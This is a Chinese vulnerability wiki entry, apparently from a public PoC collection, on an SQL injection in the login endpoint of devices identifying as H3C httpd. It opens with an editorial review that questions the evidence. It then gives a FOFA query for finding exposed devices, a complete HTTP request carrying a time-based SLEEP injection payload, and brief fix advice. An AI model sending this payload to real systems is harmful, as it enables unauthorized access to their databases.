


# H3Chttp服务器 weblogin SQL注入漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：H3C httpd标识设备未确定
- 本文讨论：web/login verifycode SQL注入
- 版本、权限与配置前提：未认证声明；MySQL SLEEP样例，无固件
- 资料类型：延时SQL PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- Server标识不等于具体产品/受影响版本
- 一次sleep和截图不足区分网络延迟，缺基线/重复测量
- 声称系统命令写入是扩大后果无链证据；在野已知无来源；fofa截断
- 已落实的文本修订：残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 延时探针会占用线程或数据库连接；需记录基线和对照，单次慢响应或超时不足判定注入

### 待核与来源

- 数据库/认证/延时证据及补丁待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

# 漏洞描述

H3Chttp服务器  在/web/login接口存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

# 影响版本

H3Chttp服务器

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：server="H3C httpd" && title=="请登录"

POC/EXP：

POST /web/login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive

user_name=admin&password=admin&verifycode=1' AND (SELECT 9821 FROM (SELECT(SLEEP(5)))dfpe) AND 'dYCM'='&language=0

# 漏洞修复

参数使用预编译形式用以对sql注入防护，同时限制接口参数输入。

下载官方补丁进行修复

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
